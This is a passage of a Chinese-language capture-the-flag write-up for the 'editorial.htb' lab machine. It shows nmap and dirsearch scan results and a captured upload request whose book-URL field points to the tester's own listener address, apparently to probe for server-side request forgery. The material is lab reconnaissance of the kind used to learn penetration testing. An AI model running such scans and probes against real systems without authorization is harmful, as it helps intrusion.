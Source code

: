 nmap 結果
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

dirsearch 的結果
```
[22:51:28] Starting: 
[22:51:38] 200 -    3KB - /about                                            
[22:52:26] 200 -    7KB - /upload  
```

掃 subdomain 沒有找到東西
來看 /upload 頁面
![image](https://hackmd.io/_uploads/rkFNv8-Byg.png)

把請求都發過一遍後透過 burp 抓下來可以知道 Book information 都被 preview 控制 其他的被 sendbook info 控制
- preview 
上傳圖片會被修改檔名跟副檔名 所以不太能利用
```
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Length: 72946
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryynSOq9ozAnlI8asf
Accept: */*
Origin: http://editorial.htb
Referer: http://editorial.htb/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

------WebKitFormBoundaryynSOq9ozAnlI8asf
Content-Disposition: form-data; name="bookurl"

http://10.10.14.3:1234
------WebKitFormBoundaryynSOq9ozAnlI8asf
Content-Disposition: form-data; name="bookfile"; filename="Cat03.jpg"
Content-Type: image/jpeg

graph

------WebKitFormBoundaryynSOq9ozAnlI8asf--
```
